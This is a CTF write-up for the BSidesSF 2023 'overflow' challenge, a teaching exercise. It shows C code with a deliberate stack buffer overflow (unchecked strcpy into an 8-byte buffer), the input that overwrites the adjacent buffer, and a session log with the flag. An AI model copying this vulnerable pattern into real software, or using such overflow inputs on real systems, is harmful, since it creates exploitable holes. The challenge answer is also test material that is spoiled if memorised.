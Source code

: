 ```yaml
---
title: 'BSidesSF 2023 Writeups: overflow (simple stack-overflow challenge)'
author: ron
layout: post
categories:
- bsidessf-2023
- ctfs
permalink: "/2023/bsidessf-2023-writeups--overflow--simple-stack-overflow-challenge-"
date: '2023-04-23T17:08:44-07:00'
comments_id: '110301420339159837'

---
```


Overflow is a straight-forward buffer overflow challenge that I copied from
the Hacking: Art of Exploitation [examples CD](https://github.com/intere/hacking).
I just added a flag. Full source is [here](https://github.com/BSidesSF/ctf-2023-release/tree/main/overflow).

<!--more-->

## Write-up

The source and binary are available, so the user can examine them. But they're
also fairly simple:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <errno.h>

int main(int argc, char *argv[]) {
	int value = 5;
	char buffer_one[8], buffer_two[8];

	strcpy(buffer_one, "one"); /* put "one" into buffer_one */
	strcpy(buffer_two, "two"); /* put "two" into buffer_two */

	printf("[BEFORE] buffer_two is at %p and contains \'%s\'\n", buffer_two, buffer_two);
	printf("[BEFORE] buffer_one is at %p and contains \'%s\'\n", buffer_one, buffer_one);
	printf("[BEFORE] value is at %p and is %d (0x%08x)\n", &value, value, value);

	printf("\n[STRCPY] copying %d bytes into buffer_two\n\n",  strlen(argv[1]));
	strcpy(buffer_two, argv[1]); /* copy first argument into buffer_two */

	printf("[AFTER] buffer_two is at %p and contains \'%s\'\n", buffer_two, buffer_two);
	printf("[AFTER] buffer_one is at %p and contains \'%s\'\n", buffer_one, buffer_one);
	printf("[AFTER] value is at %p and is %d (0x%08x)\n", &value, value, value);

  /* Added for the CTF! */
  if(!strcmp(buffer_one, "hacked")) {
    char buffer[64];
    FILE *f = fopen("/home/ctf/flag.txt", "r");

    if(!f) {
      printf("\n\nFailed to open flag.txt: %s\n", strerror(errno));

      exit(1);
    }

    fgets(buffer, 63, f);
    printf("\n\nCongratulations! %s\n", buffer);
    exit(0);
  } else {
    printf("\n\nPlease set buffer_one to \"hacked\"!\n");
  }
}
```

Basically, if you write more than 8 bytes into `buffer_two`, it overflows into
`buffer_one`. So the solution is to use the string `aaaaaaaahacked`:

```
$ nc -v localhost 4445
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to ::1:4445.
Hey, I grabbed this code from Art of Exploitation. Can you set the value of
buffer_one to "hacked"?

Run it like:

./overflowme hello
ctf@8f0a7eff015b:~$ ./overflowme aaaaaaaahacked
./overflowme aaaaaaaahacked
[BEFORE] buffer_two is at 0xffbb03b8 and contains 'two'
[BEFORE] buffer_one is at 0xffbb03c0 and contains 'one'
[BEFORE] value is at 0xffbb03c8 and is 5 (0x00000005)

[STRCPY] copying 14 bytes into buffer_two

[AFTER] buffer_two is at 0xffbb03b8 and contains 'aaaaaaaahacked'
[AFTER] buffer_one is at 0xffbb03c0 and contains 'hacked'
[AFTER] value is at 0xffbb03c8 and is 5 (0x00000005)


Congratulations! CTF{overflow-successful}
```

That's it!
